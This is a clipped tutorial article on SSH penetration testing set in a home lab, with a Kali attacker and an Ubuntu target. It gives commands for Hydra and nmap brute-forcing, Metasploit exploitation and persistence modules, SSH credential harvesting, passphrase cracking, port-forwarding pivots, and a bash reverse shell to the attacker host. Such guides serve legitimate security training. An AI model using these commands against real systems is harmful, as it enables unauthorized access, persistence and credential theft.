```yaml
---
title: "SSH Penetration Testing"
source: "https://medium.verylazytech.com/ssh-penetration-testing-be4fc8517286"
author:
  - "[[Very Lazy Tech 👾]]"
published: 2024-09-09
created: 2025-01-23
description: "Secure Shell (SSH) is a widely used cryptographic protocol designed for secure communication over an unsecured network. Its primary use is for remote server management, secure data transfers, and…"
tags:
  - "clippings"
---
```

[

![Very Lazy Tech 👾](https://miro.medium.com/v2/resize:fill:88:88/1*cQVMEaLp7npt5Gw9hUV7aQ.png)

](https://medium.verylazytech.com/?source=post_page---byline--be4fc8517286--------------------------------)

Secure Shell (SSH) is a widely used cryptographic protocol designed for secure communication over an unsecured network. Its primary use is for remote server management, secure data transfers, and remote command execution. However, as with any service, it can be vulnerable to various types of attacks. This guide delves into SSH penetration testing techniques, exploiting its vulnerabilities, and applying real-world methods to enhance your offensive security skills.

![](https://miro.medium.com/v2/resize:fit:700/0*DMpsZzJe7X2JDAnI)

Photo by [Arian Darvishi](https://unsplash.com/@arianismmm?utm_source=medium&utm_medium=referral) on [Unsplash](https://unsplash.com/?utm_source=medium&utm_medium=referral)

This article is tailored for professionals aiming to improve their understanding of SSH’s security mechanisms while enhancing their penetration testing toolkit.

## Lab Setup

Before jumping into SSH exploitation techniques, it is essential to have a lab setup for practice.

- **Target Machine**: Ubuntu Server (192.168.31.205)
- **Attacker Machine**: Kali Linux (192.168.31.141)

SSH is installed by default on most Linux distributions, and in this setup, we’ll exploit it using the above machines.

```
sudo apt install openssh-server
```

Verify the SSH service:

```
sudo systemctl status ssh
```

## Enumeration

**Enumeration** is the first and most crucial step in penetration testing. Nmap can be used to detect the version of SSH running on a target.

```
nmap -sV 192.168.31.205
```

If SSH is detected on the default port `22`, it's crucial to note the version as some older versions may have known vulnerabilities.

## Password Cracking Using Hydra

Hydra is a powerful tool for brute-forcing services like SSH.

Prepare a username and password list:

```
hydra -L users.txt -P pass.txt 192.168.31.205 ssh
```

Once Hydra cracks the password, log into the SSH service:

```
ssh username@192.168.31.205
```

**Best Practice**: For real-world testing, make sure to use custom wordlists derived from intelligence gathering on your target.

## Exploiting SSH with Metasploit

For SSH penetration testing, **Metasploit** provides built-in modules that make the process more efficient.

```
use exploit/multi/ssh/sshexec
set rhosts 192.168.31.205
set username pentest
set password 123
exploit
```

**Pro Tip**: Use Metasploit to automate post-exploitation tasks once inside the machine.

## Key-based Authentication and Attacks

SSH key-based authentication is a more secure alternative to password authentication. However, it can still be exploited if misconfigurations exist.

- **Generating SSH Keys**:

```
ssh-keygen
```

- **Copying Public Key to Target**:

```
ssh-copy-id user@192.168.31.205
```

- **Exploiting Misconfigured Key Permissions**: If you can steal the private key (`id_rsa`), SSH can be bypassed:

```
ssh -i id_rsa username@192.168.31.205
```

## Port Redirection

Port redirection can be used to pivot through compromised hosts. For example, if SSH is available but a web application is running on an internal port, you can set up local port forwarding:

```
ssh -L 8080:127.0.0.1:8080 username@192.168.31.205
```

Access the internal web app via `http://localhost:8080` on your attacker machine.

## Nmap SSH Brute-Force Script

Nmap has built-in scripts to automate brute-force attacks against SSH:

```
nmap --script ssh-brute -p 22 192.168.31.205
```

You can customize the username and password files to improve success rates:

```
nmap 
```

## Post-Exploitation with Metasploit

Once you’ve gained access to an SSH session, leverage **post-exploitation modules** for persistence and data exfiltration:

```
use post/linux/manage/sshkey_persistence
set session 1
exploit
```

Another effective module is **ssh\_creds**, which retrieves SSH keys from the compromised machine:

```
use post/multi/gather/ssh_creds
set session 1
exploit
```

## Advanced Techniques

- **SSH Hijacking**: If you find active SSH sessions, you can hijack them with tools like SSH hijacker.
- **Cracking SSH Passphrase**: Use tools like `ssh2john` and John the Ripper to crack SSH private key passphrases.

```
ssh2john id_rsa > sshhash john --wordlist=/usr/share/wordlists/rockyou.txt sshhash
```

- **Reverse Shell via SSH**: Send a reverse shell to gain complete control of the system:

```
ssh pentest@192.168.31.205 'bash -i >& /dev/tcp/192.168.31.141/4444 0>&1'
```

## Key Takeaways

1. **Enumeration is Key**: Always identify the SSH version and configuration.
2. **Use Password Cracking as a Last Resort**: Key-based authentication is harder to crack but not impossible.
3. **Post-exploitation is Vital**: Gaining initial access is only the first step — post-exploitation can yield more valuable information.
4. **Be Aware of Redirection and Tunneling**: These techniques can be game-changers in internal network pivoting.

SSH is a critical protocol in modern infrastructure. As a penetration tester or security researcher, mastering SSH attack vectors is crucial. From password brute-forcing with Hydra to key-based authentication exploits and advanced post-exploitation techniques with Metasploit, this guide has covered practical tools and methods to enhance your security testing. Always remember, the success of any penetration test lies in the precision of your enumeration and the efficiency of your attack strategy.